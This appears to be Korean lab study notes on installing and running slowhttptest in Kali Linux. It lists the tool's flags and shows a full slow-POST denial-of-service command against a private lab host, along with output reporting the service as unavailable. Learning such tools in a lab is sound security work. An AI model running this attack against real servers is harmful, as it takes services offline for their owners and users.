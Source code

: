 

#### Slow HTTP TEST (129p)

###### 칼리

설치

root@kali-04:~/Desktop# apt-get -y install slowhttptest

설치확인

root@kali-04:~/Desktop# dpkg -l slowhttptest

```
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name           Version      Architecture Description
+++-==============-============-============-===========================================================
ii  slowhttptest   1.7-1+b1     amd64        application layer Denial of Service attacks simulation tool


```

Slowhttptest 사용방법

-B : Slow Post Dos 모드

-C : 연결 세션 수

-i : 전송 간격

-r : 초당 연결 수

-s : 헤더 길이

-u : 서버에 요청할 자원



root@kali-04:~/Desktop# slowhttptest -B -c 3000 -i 100 -r 30 -s 10240 -u http://172.16.10.20/index.php



```
Tue Oct  6 15:26:54 2020:
        slowhttptest version 1.6
 - https://code.google.com/p/slowhttptest/ -
test type:                        SLOW BODY
number of connections:            3000
URL:                              http://172.16.10.20/index.php
verb:                             POST
Content-Length header value:      10240
follow up data max size:          66
interval between follow up data:  100 seconds
connections per seconds:          30
probe connection timeout:         5 seconds
test duration:                    240 seconds
using proxy:                      no proxy 

Tue Oct  6 15:26:54 2020:
slow HTTP test status on 40th second:

initializing:        0
pending:             720
connected:           424
error:               0
closed:              0
service available:   NO
```